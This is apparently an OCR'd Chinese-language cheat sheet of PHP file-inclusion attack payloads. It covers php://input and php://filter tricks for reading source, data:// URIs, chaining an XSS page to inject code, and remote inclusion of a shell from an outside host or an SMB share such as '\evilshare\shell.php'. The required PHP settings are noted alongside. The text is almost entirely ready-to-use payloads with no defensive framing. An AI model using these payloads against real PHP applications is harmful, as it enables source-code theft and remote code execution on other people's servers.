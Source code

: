 ### **利用 php 流 input：**
```
?file=php://input

(需要 allow_url_include=On)
```

---

### **利用 php 流 filter：**
```
?file=php://filter/convert.base64-encode/resource=index.php

(需要 allow_url_include=On)
```

---

### **利用 data URIs：**
```
?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

(需要 allow_url_include=On)
```

---

### **利用 XSS 執行任意代碼：**
```
?file=http://127.0.0.1/path/xss.php?xss=phpcode

(需要 allow_url_fopen=On,allow_url_include=On 並且防火牆或者白名單不允許訪問外網時,先在同站點找一個 XSS 漏洞,包含這個頁面,就可以注入惡意代碼了。條件非常極端和特殊- -)
```

---

### **有限制的遠程文件包含**
```php
<?php include($_GET['file'] . ".htm"); ?>
```
```
?file=http://example.com/shell

?file=http://example.com/shell.txt?

?file=http://example.com/shell.txt%23

(需要 allow_url_fopen=On 並且 allow_url_include=On)

?file=\evilshare\shell.php (只需要 allow_url_include=On)
```

---